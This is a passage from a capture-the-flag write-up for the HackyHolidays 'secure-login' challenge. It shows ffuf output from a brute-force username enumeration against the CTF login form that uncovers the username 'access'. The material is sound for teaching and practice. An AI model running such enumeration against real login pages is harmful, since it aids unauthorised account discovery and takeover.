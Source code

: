 Putting it into action:
```bash
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : POST
 :: URL              : https://hackyholidays.h1ctf.com/secure-login
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Regexp: Invalid Username
________________________________________________

access                  [Status: 200, Size: 1724, Words: 464, Lines: 37]
:: Progress: [10177/10177] :: Job [1/1] :: 391 req/sec :: Duration: [0:00:26] :: Errors: 0 ::
```

We see that we have found the username `access`. Let's see what happens when we use it:

<p align="center">
  <img src="screenshots/secure-login-3.png" style="width:90%; border:0.5px solid black">
</p>
